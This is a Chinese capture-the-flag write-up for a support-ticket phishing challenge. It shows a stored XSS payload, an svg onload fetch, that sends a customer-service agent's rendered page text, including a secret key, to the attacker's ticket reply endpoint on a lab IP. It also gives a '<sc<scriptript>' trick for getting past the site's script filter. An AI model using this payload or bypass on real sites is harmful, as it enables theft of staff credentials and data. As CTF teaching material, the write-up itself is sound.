


# 内网渗透与高级社工-社交平台钓鱼-G2 WriteUp

## 分析

打开网站，可发现提交工单中有三栏：昵称、标题、详细描述

提交工单后，我们被重定向到`/ticket/1`页面，其中`1`是工单的ID

在`/ticket/1`页面中，我们可以看到工单的详细信息，并可以进行补充说明回复，在原工单之下添加新内容。



我们要获取客服传来的密钥，自然想到通过诱导客服进行补充说明回复这个方式来获取。

使用任意流量拦截工具（如Burp Suite、开发者工具）拦截回复请求，可看到回复的方式和URL：

```
POST /ticket/1/reply
```

并且有payload：

```
{
    "body": "回复内容"
}
```

所以根据提示（XSS），我们需要通过XSS攻击诱导客服向/ticket/1/reply发送密钥。

## 攻击

最终构造XSS Payload如下（IP、端口、工单号根据实际情况修改）：

```javascript
<svg onload="fetch('http://172.17.0.13:15279/ticket/1/reply',{
  method:'POST',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'body='+encodeURIComponent(document.body.innerText)
})"></svg>
```

在客服加载页面时，会触发onload事件，向我们指定的URL发送document.body.innerText的内容，也就是“网页body标签内部所有已渲染的文本内容”，根据题目描述，其中包含客服工作台含有的密钥。

新建一个工单，详细信息一栏填写构造的XSS Payload。

等待一会儿后打开工单1：`http://172.17.0.13:15279/ticket/1`，即可看到客服回复的密钥。



## 补充

过程中发现，详细信息一栏会删除所有的`<script`，例如将`<script>alert(1)</script>`删除后变为`>alert(1)</script>`，从出题角度考虑，这也提醒了此处存在XSS漏洞。

对于类似的简单过滤，可使用`<sc<scriptript>`或类似方式绕过，删除中间的`<script`后仍然剩余`<script>`，从而触发XSS。
